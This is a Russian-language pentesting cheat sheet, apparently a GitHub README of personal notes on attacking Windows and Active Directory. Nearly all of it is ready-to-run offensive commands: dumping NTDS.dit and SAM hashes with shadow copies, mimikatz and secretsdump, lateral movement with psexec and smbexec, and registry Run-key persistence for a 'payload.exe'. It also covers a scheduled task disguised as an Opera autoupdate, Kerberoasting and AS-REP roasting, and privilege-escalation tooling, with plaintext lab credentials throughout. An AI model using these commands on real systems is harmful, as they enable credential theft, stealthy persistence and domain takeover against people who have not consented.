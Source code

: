 # Up_windows
Подключение по РДП
rdesktop -u Administrator -p Admin123 -d ROOT.DC 192.168.50.200  
для машины в рабочей группе xfreerdp /u:Alexs /p:2013 /v:192.168.50.232
xfreerdp /v:192.168.50.200 /d:root.dc /u:administrator /p:Admin123

РДП из коммандной строки
mstsc /v:<адрес_компьютера>






Создание теневой копии диска

vssadmin create shadow /for=c:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy



Как извлечь хеш пароля пользователя NTLM из файлов реестра



.\mimikatz.exe
lsadump::sam /system:C:\Share-Server\files\SYSTEM /sam:C:\Share-Server\files\SAM

impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL >> text распарсить файл ntds.dit




Psexec -i \\192.168.50.200 -u administrator -s cmd.exe Привелигерованный режим... (если уже админ то ситем)
для psexec
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f




Автозагрузка.....
Если у вас права обычного пользователя, следует использовать ветку реестра HKCU

reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"
 
reg add "HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\Users\idyachkov\payload.exe"



Если у вас есть админские права в системе, следует использовать ветку HKLM — в таком случае каждый раз при запуске системы будет выполняться payload.exe или dll. Этот способ хорош тем, что не зависит от пользователя, который логинится в систему.

reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001" /v payload /t REG_SZ /d "C:\tmp\payload.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx\0001\Depend" /v payload /t REG_SZ /d "C:\tmp\payload.dll"
 
reg add “HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run” /v payload /t REG_SZ /d “C:\tmp\payload.exe”


Пример создания запланированной задачи:

schtasks /create /sc minute /mo 5 /tn "Opera scheduled Autoupdate 1594994248" /tr C:\tmp\Opera_autoupdate1594994248.exe

chcp 65001

psexec -i \\\adress -u user cmd

python smbexec.py ignite/administrator:Ignite@987@192.168.1.105

***************************************************************************************************************************************************
Cбор информации в домене 


net user /domain пользователи домена
Get-ADUser -identity administrator -properties *
Get-ADUser -identity administrator -properties memberof

net user administrator /domain в какие группы входит пользователь
net group "domain admins" кто входит в группы

Get-ADcomputer -filter * -properties * | ft nmae, ipv4adress компутеры в домене
net group "domain computer"

снаружи домена 
rpcclient 10.10.38.153 -U nik - нужен пароль - может перечислять пользователей и группы в домене 
enumdomusers - перчисляет пользователей 
enumdomgroup - перечисляет группы

Поиск SPN_учетных записей без пароля
python3 GetNPUsers.py enterprise.thm/ -dc-ip 10.10.38.153 -usersfile /home/max/users.txt -no-pass

Глянуть SPN 

python3 GetUserSPNs.py -dc-ip 10.10.154.84 lab.enterprise.thm/nik:ToastyBoi! -request

   Скрипты векторов повышения привелегий

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Systeminfo - отображает подробную информацию о конфигурации компьютера и его операционной системы, включая конфигурацию операционной системы, информацию о безопасности, идентификатор продукта и свойства оборудования (например, ОЗУ, место на диске и сетевые карты).
Systeminfo перенаправил в текстовик, после этого я загрузил на Kali этот файл, и сейчас будем смотреть в него

Но перед этим нужно скачать exploit_suggester, например такой: GitHub - AonCyberLabs/Windows-Exploit-Suggester: This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins.

https://github.com/HarmJ0y/PowerUp

https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
  для которого import-module ./powerup.ps1 и затем Invoke-AllChecks

  
